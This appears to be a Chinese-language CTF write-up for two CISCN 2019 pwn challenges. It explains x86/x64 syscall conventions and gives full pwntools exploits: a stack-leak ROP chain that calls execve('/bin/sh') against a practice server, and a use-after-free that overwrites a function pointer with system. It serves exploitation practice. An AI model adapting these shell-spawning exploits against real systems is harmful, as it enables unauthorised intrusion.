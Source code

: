 

[TOC]



## ciscn_2019_s_3

　　32位与64位 系统调用的区别：

>　　1. 传参方式不同
>
>　　2. 系统调用号 不同
>
>　　3. 调用方式 不同

　　32位：

```
传参方式：首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器

调用号：sys_read 的调用号 为 3 sys_write 的调用号 为 4

调用方式: 使用 int 80h 中断进行系统调用
```

　　64位：

```
传参方式：首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 rdi，rsi，rdx寄存器中，返回值存在rax寄存器

调用号：sys_read 的调用号 为 0 sys_write 的调用号 为 1

stub_execve 的调用号 为 59 stub_rt_sigreturn 的调用号 为 15

调用方式: 使用 syscall 进行系统调用
```

调用：\$rax\=\=59，\$rdi\=\=“/bin/sh”，\$rsi\=\=0，\$rdx\=\=0

首先往栈上写0x400，然后从栈上读0x30

经过调试发现输入后返回的是写入栈上的位置。

![image-20210511160829045](CISCN_PWN.assets/image-20210511160829045.png)

将0x00007ffe7d621e58减去0x00007ffe7d621d40得到0x118（固定）

所以经过recv的地址减去0x118就是写入/bin/sh的地址

有个gadgets函数：

![image-20210511161319133](CISCN_PWN.assets/image-20210511161319133.png)

其中的0x3B就是59，系统调用，

> hex(0x00007ffe7d621e58 - 0x7ffe7d621d40)
> '0x118'

![image-20210511162201775](CISCN_PWN.assets/image-20210511162201775.png)

r12是将要执行的地址。

```python
from pwn import *
io = remote('node3.buuoj.cn',26613)
#io = process("./ciscn_s_3")
vulun_addr = 0x4004ED
mov_rax = 0x4004E2
pop_rbx_rbp_r12= 0x40059a
mov_call = 0x400580
sys_call = 0x400517
pop_rdi = 0x04005a3

payload = b"/bin/sh\x00"*2 + p64(vulun_addr)
io.send(payload)
io.recv(0x20)

bin_sh_add = u64(io.recv(8))-0x118
payload = b"/bin/sh\x00"*2 + p64(pop_rbx_rbp_r12)+p64(0)*2+ p64(bin_sh_add+0x50) + p64(0)*3

payload +=  p64(mov_call)+p64(mov_rax) +p64(pop_rdi)+ p64(bin_sh_add) + p64(sys_call)

io.sendline(payload)

io.interactive()
```



## ciscn_2019_n_3

new()中，分为两种type，一种是整形，一种是字符串，字符串的话将地址放在chunk中。

分配的0x10的有8byte写了两个函数的地址。（str_printf和str_free）

所以直接将free的地址改为system然后执行就OK。

这道题第一开始一直没太搞懂。

![image-20210512205816626](CISCN_PWN.assets/image-20210512205816626.png)

他delete了1和2之后，bin中有了两个，再下来new3 写入的时候，首先是malloc了1e0的那个位置，之后存放的地址是1a0那里，一直以为是1f0的位置。。。所以写入的sh+system的地址是1a0。

还有就是为什么sh的地址是1a0，可以这样查看，![image-20210512210029878](CISCN_PWN.assets/image-20210512210029878.png)

exp：

```python
from pwn import *

p = process("./ciscn_2019_n_3")
context.log_level = 'debug'
elf = ELF("ciscn_2019_n_3")
def newnote(idx,type,value,length=0):
    p.recvuntil("CNote > ")
    p.sendline(str(1))
    p.recvuntil("Index > ")
    p.sendline(str(idx))
    p.recvuntil("Type > ")
    p.sendline(str(type))
    if type == 1:
        p.recvuntil("Value > ")
        p.sendline(str(value))
    else:
            p.recvuntil("Length > ")
            p.sendline(str(length))
            p.recvuntil("Value > ")
            if length == 8:
                p.send(value)
            else:
                p.sendline(value)
def delnote(idx):
    p.recvuntil("CNote > ")
    p.sendline(str(2))
    p.recvuntil("Index > ")
    p.sendline(str(idx))
def shownote(idx):
    p.recvuntil("CNote > ")
    p.sendline(str(3))
    p.recvuntil("Index > ")
    p.sendline(str(idx))

newnote(0,2,'a'*0x10,0x2c)
newnote(1,2,'b'*0x10,0x2c)
newnote(2,2,'c'*0x10,0x2c)

delnote(1)
delnote(2)
#gdb.attach(p)
newnote(3,2,'sh\x00\x00'+ p32(elf.plt['system']),0xc)
gdb.attach(p)
delnote(1)

p.interactive()
```

